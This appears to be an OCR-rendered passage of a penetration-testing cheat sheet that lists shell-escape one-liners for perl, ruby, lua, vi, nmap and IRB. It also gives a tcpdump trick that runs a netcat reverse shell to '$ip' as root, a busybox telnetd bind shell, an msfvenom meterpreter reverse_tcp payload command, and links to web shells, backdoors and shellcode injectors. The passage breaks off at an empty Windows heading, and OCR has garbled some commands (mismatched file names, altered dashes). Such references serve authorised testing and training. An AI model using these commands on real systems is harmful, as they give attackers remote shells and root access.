       `echo os.system('/bin/bash')`

      `/bin/sh -i`

      `perl —e 'exec "/bin/sh";'`

      perl: `exec "/bin/sh";`

      ruby: `exec "/bin/sh"`

      lua: `os.execute('/bin/sh')`

      From within IRB: `exec "/bin/sh"`


      From within vi: `:!bash`
     or

      `:set shell=/bin/bash:shell`

      From within vim `':!bash':`

      From within nmap: `!sh`

      From within tcpdump

         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

      From busybox  `/bin/busybox telnetd -|/bin/sh -p9999`

-   Pen test monkey PHP reverse shell
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

-   Perl Reverse Shell
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1

-   Web Backdoors from Fuzzdb
    https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

-   Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/

      *Linux*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

      *Windows*
